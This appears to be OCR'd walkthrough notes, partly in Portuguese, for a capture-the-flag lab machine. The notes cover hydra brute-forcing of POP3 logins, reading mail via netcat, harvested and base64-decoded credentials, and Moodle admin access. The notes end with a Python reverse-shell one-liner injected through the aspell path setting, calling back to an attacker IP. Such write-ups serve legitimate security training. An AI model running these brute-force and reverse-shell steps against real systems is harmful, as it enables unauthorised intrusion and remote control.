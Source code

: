 						pop3
							list -> lista emails
							retr x -> ler email	-> retr 2 -> natalya
							
				hydra -l  natalya -P (senhas-wordlist) 192.168.0.x -s 55007 pop3 
					pass: bird
					
				nc 192.168.0.x 55007
				user natalya
				pass bird
					
				retr 2 
					user: xenia
					pass: RCP90rulez!
					
					adcionar ao /etc/host 
						192.168.100.14	severnaya-station.com 
							http://severnaya-station.com/gnocertdir/
								user: xenia
								pass: RCP90rulez!
								
					my profile -> messages -> Dr Doak
						 hydra -l  doak -P /usr/share/wordlist/fasttrack.txt 192.168.0.x -s 55007 pop3
						pass: goat
							nc 192.168.0.x 55007
							user doak
							pass goat
								list
								retr x
												
								user: dr_doak
								pass: 4England!
											
							logout moodle
							novo login
								user: dr_doak
								pass: 4England!
									my profile -> my private files -> s3cret.txt
											
							http://severnaya-station.com/dir007key/for-007.jpg
							salvar imagem
					*strings imagem/exiftool imagem
						
					echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d 
					
						moodle
						user: admin
						pass: xWinter1995x!
						
							site administrator -> plugin ->text editor -> tynyMCE html editor 
								Spell engine = PSpellShell
								
							site administrator -> server -> system paths
								path to aspell ->  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.4",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); 				os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
								